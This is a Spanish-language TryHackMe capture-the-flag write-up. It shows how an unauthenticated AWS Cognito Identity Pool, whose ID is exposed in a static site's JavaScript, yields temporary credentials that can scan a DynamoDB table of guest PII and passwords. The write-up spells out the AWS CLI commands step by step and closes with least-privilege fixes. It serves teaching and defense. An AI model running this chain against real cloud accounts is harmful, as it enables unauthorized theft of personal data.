


Plataforma
TryHackMe
Se explotó una configuración insegura de AWS Cognito Identity Pool con acceso no autenticado habilitado. Las credenciales temporales obtenidas permitieron escanear una tabla DynamoDB completa, exfiltrando datos personales de otros huéspedes del resort, incluyendo contraseñas, emails, teléfonos y ubicaciones.
El objetivo era una aplicación web llamada "Byte Lotus Wellness", un dashboard de bienestar "gratuito" alojado en un bucket S3 como sitio estático. La app no requería cuenta ni login — según el briefing, el huésped Lambo la instaló el día que llegó al resort, atraída por las buenas reseñas y un tote bag de regalo por otorgar permisos de cámara, micrófono, contactos y ubicación.
Al acceder a la URL del dashboard, la app mostraba un mensaje genérico indicando que aún no tenía datos de wellness. El primer paso fue inspeccionar el código fuente del sitio para entender cómo la aplicación se comunicaba con el backend, dado que no existía proceso de autenticación visible.
# Acceso inicial al dashboard
http://complimentary-wellness-app-332173347248.s3-website-us-east-1.amazonaws.com/
# Respuesta de la app:
"Welcome! We don't have wellness data for you yet — check back after your first spa visit."Al inspeccionar el código JavaScript (app.js) en las herramientas de desarrollo del navegador, se encontraron credenciales de configuración AWS hardcodeadas directamente en el frontend:
// Extraído de app.js (DevTools → Sources)
const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";
AWS.config.region = AWS_REGION;
AWS.config.credentials = new AWS.CognitoIdentityCredentials({
IdentityPoolId: IDENTITY_POOL_ID,
});
La aplicación utilizaba un Amazon Cognito Identity Pool con acceso no autenticado habilitado. Esto significa que cualquier visitante, sin necesidad de registrarse ni iniciar sesión, podía obtener credenciales temporales de AWS con solo hacer una solicitud al servicio de Cognito.
El problema no era solo la existencia de acceso no autenticado (que tiene usos legítimos), sino que el rol IAM asociado al acceso no autenticado tenía permisos excesivos: podía ejecutar dynamodb:Scan sobre la tabla complimentary-GuestWellnessProfiles, lo que permitía leer todos los registros de todos los huéspedes, no solo el del usuario actual.
Paso 1 — Obtención de Identity ID. Con el Identity Pool ID extraído del JavaScript, se solicitó un identificador de identidad anónimo a Cognito:
aws cognito-identity get-id \
--identity-pool-id us-east-1:836c0949-292d-485b-b532-52d5ca7bb688 \
--region us-east-1
# Respuesta:
{
"IdentityId": "us-east-1:4d571309-b08b-c910-5f3e-840bfee0a451"
}Paso 2 — Obtención de credenciales temporales. Con el Identity ID, se solicitaron credenciales temporales de AWS (AccessKeyId, SecretKey, SessionToken):
aws cognito-identity get-credentials-for-identity \
--identity-id us-east-1:4d571309-b08b-c910-5f3e-840bfee0a451 \
--region us-east-1 > creds.json
# Se exportaron las credenciales como variables de entorno:
export AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' creds.json)
export AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretKey' creds.json)
export AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' creds.json)Paso 3 — Verificación de identidad. Se confirmó el rol asumido con STS:
aws sts get-caller-identity --region us-east-1
{
"UserId": "AROAU2VYTBGYCEB4JME2S:CognitoIdentityCredentials",
"Account": "332173347248",
"Arn": "arn:aws:sts::332173347248:assumed-role/complimentary-cognito-unauth-role/CognitoIdentityCredentials"
}Paso 4 — Escaneo de la tabla DynamoDB. Con las credenciales del rol no autenticado, se ejecutó un scan completo de la tabla de perfiles de huéspedes:
aws dynamodb scan \
--table-name complimentary-GuestWellnessProfiles \
--region us-east-1
El scan de la tabla DynamoDB devolvió los registros completos de los huéspedes, incluyendo:
vibe@hackerholidays.thm), teléfono (+1-555-0193), ubicación GPS.digitaldetox2026).name del registro.El impacto es critical: un atacante sin autenticación alguna puede exfiltrar la totalidad de los datos personales de todos los huéspedes del resort. Esto incluye PII (información de identificación personal), credenciales en texto plano y datos de ubicación — todo accesible sin más que inspeccionar el JavaScript del frontend y ejecutar cuatro comandos de AWS CLI.
dynamodb:Scan. Limitar a dynamodb:GetItem con condiciones que restrinjan el acceso exclusivamente al registro del propio usuario (usando dynamodb:LeadingKeys).Este reto demuestra una cadena de ataque clásica en entornos cloud mal configurados: una aplicación serverless que confía en la seguridad por oscuridad (esconder las credenciales en el JavaScript del frontend) en lugar de implementar controles de acceso reales. El hecho de que todo esté en el código fuente del cliente — el Identity Pool ID, la región, el nombre de la tabla — convierte la "inspección del navegador" en la fase completa de reconocimiento.
La lección principal es que Cognito Identity Pools con acceso no autenticado son una superficie de ataque crítica si el rol IAM asociado no está estrictamente restringido. El servicio está diseñado para otorgar credenciales temporales a usuarios anónimos, lo cual es un feature, no un bug — pero el rol que reciben esas credenciales define el alcance del daño. Un Scan sobre una tabla con PII es el peor escenario posible para un rol anónimo.